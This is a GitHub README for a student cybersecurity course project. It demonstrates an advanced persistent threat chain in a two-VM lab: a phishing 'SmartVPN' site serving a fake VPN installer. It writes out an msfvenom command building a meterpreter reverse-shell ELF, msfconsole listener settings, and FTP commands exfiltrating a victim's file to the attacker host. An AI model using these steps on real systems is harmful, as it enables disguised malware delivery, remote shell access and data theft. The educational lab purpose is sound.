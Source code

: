 ## SmartVPN

Link to Github Repo - https://github.com/Pranauv-Kumar1803/ICS

This is a repository containing code for demonstration of APT attacks as part of the topic "Case Studies on Advanced Persistent Threats" of Group Number 15 (ICS Section-1) for Introduction to Cyber Security Coursework @ IIIT Sricity.

This repo contains the server-side rendering code for a phishing website called as Smart VPN which has a maliicous .elf executable file as vpn_setup.elf which as the name suggests, is a fake VPN setup file which if executed, can open a connection to the attacker and spawn a shell of the victim's machine at the attacker's end.

We are setting up a reverse shell on the victim's computer which will connect to the attacker's machine which is listening to the connection request from any machine after the malicious file has been sent!

Note: This is only for educational purposes!


## Project Contributors

- Pranauv Kumar - S20210010186
- Rahul Agarwal - S20210010187
- Sai Swetha M - S20210010143
- Anurag Yadav - S20210010026

## Some Information on APT

APTs are sophisticated, targeted cyber attacks
conducted by well-funded and highly skilled threat
actors.

One reknowned example of APT is APT28 -it is associated
with Russian state-sponsored hacking groups.

There are 5 Steps in APT :-
1) Reconnaisance and Weaponization - This is where where attacker collect information about the target organization by investigating its employees, partners, or customers and makes a malicious weapon well-crafted for one particular target inside the organization!
2) Delivery and Initial Intrusion - This is where they send the malware into the system inside a network they want to hack (thru various methods like Phishing mails, Water Holing Attack, etc) and get hold of a computer in the org's network.
3) Command and Control - This is where the attacker sets up Remote Access Tools / Backdoors in the victim's computer to access his computer when the host program is not running also.
4) Lateral Movement - This is where the attacker maps the org's devices through one compromised device and travels between them to get as much information as possible ( in a very slow manner so as to not alert the systems )
5) Data Exfiltration - This is where the collected data is sent to the attacker through any means like social media websites, file transfers, etc.

## How to Make It Work!

For demonstration, we need two Virtual Machines - Kali Linux and Ubuntu Linux default setup with FTP servers (VSFTPD preferably - installation not in the scope of this repository).

Note, here we are having 2 VMs in the same network for ease of demonstration and the IP addresses are on the basis of that!

Kali's IP - 192.168.100.4 and Ubuntu's IP - 192.168.100.5

In Kali Linux,

Firstly, Clone the project to have the Fake VPN Website ready for the victim to download the malicious VPN setup file. 

```bash
git clone https://github.com/Pranauv-Kumar1803/ICS.git
```

Go to the project directory

```bash
cd ICS
```

Install dependencies in both client and server folder

```bash
npm install
```

Start the server

```bash
npm start
```

Next, create the malicious .elf executable file using msfvenom toolkit. The code is as given below:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.4 LPORT=4443 -f elf > vpn_setup.elf
```

Then, setup the Listener using msfconsole (Listen on the same host ip address and port as mentioned in the creatino of the .elf file code above):
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.100.4
set lport 4443
exploit
```

Now that the listener is up and running in the Kali, we go for Ubuntu.

From here, we access the SmartVPN website that is hosted on "192.168.100.4:8000" and download the vpn setup from the website and we run it!

Boom! Now, we have a hit in Kali Linux's Listener inside msfconsole and now we can access the victim's computer through the shell that was spawned!

After this, to just show the data exfiltration part, we use FTP to connect to the attacker's computer from the victim's shell in the msfconsole to exfiltrate some data (some random dummy.pdf files from victim's computer)

To do this, type the following in the shell spawned in the Kali Linux's Msfconsole,

```bash
shell
bash
ftp 192.168.100.4  #and enter kali's ftp password when prompted
put dummy.pdf ./   #to transfer dummy.pdf from victim's to attacker's computer
```

"put" command of FTP, sees the "dummy.pdf" in the main/default directory of ftp User in Ubuntu and transfers it to the default directory of Kali's ftp user.

Hence, we are done with the whole demonstration of APT!
